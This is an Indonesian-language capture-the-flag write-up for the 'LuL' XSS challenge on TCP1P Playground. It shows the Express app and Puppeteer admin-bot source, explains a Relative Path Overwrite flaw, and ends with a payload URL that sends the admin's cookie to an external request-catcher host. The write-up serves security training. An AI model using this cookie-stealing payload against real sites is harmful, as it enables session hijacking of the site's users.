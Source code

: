 # LuL - XSS - TCP1P Playground

Pada challenge ini diberikan web static yang tidak menerima inputan apapun, terdapat endpoint `/report` yang mana adlah bot page untuk bot mengakses url yang kita inputkan namun host haruslah `http://app:3000`, dan flag terdapat di cookie dari admin

## Source Code
app.js
```javascript
const express = require('express')

const port = process.env.PORT || 3000

const app = express()

// Middleware to log each request
app.use((req, res, next) => {
    console.log(`[${new Date().toISOString()}] ${req.method} request to ${req.url}`)
    next()
})

app.use((_req, res, next) => {
    res.setHeader('Content-Security-Policy', "default-src 'self'")
    next()
})

app.use(
    express.static('static', {
        index: 'index.html'
    })
)

app.use((req, res) => {
    res.type('text').send(`${req.path}`)
})

app.listen(port, async () => {
    console.log(`Listening on http://0.0.0.0:${port}`)
    console.log('Browser launched')
})

```
Bot.js
```javascript
const puppeteer = require('puppeteer');

const CONFIG = {
    APPNAME: process.env['APPNAME'] || "Admin",
    APPURL: process.env['APPURL'] || "http://172.17.0.1",
    APPURLREGEX: process.env['APPURLREGEX'] || "^.*$",
    APPFLAG: process.env['APPFLAG'] || "dev{flag}",
    APPLIMITTIME: Number(process.env['APPLIMITTIME'] || "60"),
    APPLIMIT: Number(process.env['APPLIMIT'] || "5"),
}

console.table(CONFIG)

const initBrowser = puppeteer.launch({
    executablePath: "/usr/bin/chromium-browser",
    headless: 'new',
    args: [
        '--disable-dev-shm-usage',
        '--no-sandbox',
        '--disable-setuid-sandbox',
        '--disable-gpu',
        '--no-gpu',
        '--disable-default-apps',
        '--disable-translate',
        '--disable-device-discovery-notifications',
        '--disable-software-rasterizer',
        '--disable-xss-auditor'
    ],
    ipDataDir: '/home/bot/data/',
    ignoreHTTPSErrors: true
});

console.log("Bot started...");

module.exports = {
    name: CONFIG.APPNAME,
    urlRegex: CONFIG.APPURLREGEX,
    rateLimit: {
        windowS: CONFIG.APPLIMITTIME,
        max: CONFIG.APPLIMIT
    },
    bot: async (urlToVisit) => {
        const browser = await initBrowser;
        const context = await browser.createIncognitoBrowserContext()
        try {
            // Goto main page
            const page = await context.newPage();

            // Set Flag
            await page.setCookie({
                name: "flag",
                httpOnly: false,
                value: CONFIG.APPFLAG,
                url: CONFIG.APPURL
            })

            // Visit URL from user
            console.log(`bot visiting ${urlToVisit}`)
            await page.goto(urlToVisit, {
                waitUntil: 'networkidle2'
            });
            await page.waitForTimeout(5000);

            // Close
            console.log("browser close...")
            await context.close()
            return true;
        } catch (e) {
            console.error(e);
            await context.close();
            return false;
        }
    }
}

```

### Static
index.html
```html
<script src="./hello_world.js"></script>

```
hello_world.js
```javascript
document.write("hello world!")
```

## Exploit
Terlihat tidak ada celah apapun pada web app, sedangkan kita diharuskan untuk melakukan XSS untuk mendapatkan cookie dari admin.

Setelah melakukan explorasi terdapat kerentanan XSS `Relative Path Overwrite` yang memungkinkan kita untuk melakukan xss melalui path, dan express mengenalinya sebagai bagian dari path namun sistem akan mengenalinya sebagai `html` syntax dan akan mengeksekusi payload

Payload
```bash!
http://playground.tcp1p.team:39046/a/g;location=decodeURIComponent('https%253A%252F%252Fad.requestcatcher.com%252Ftest%253Fcookie%253D'+document.cookie)//a%2f..%2f..%2f..%2f..%2f..%2findex.html
```

Terimakasih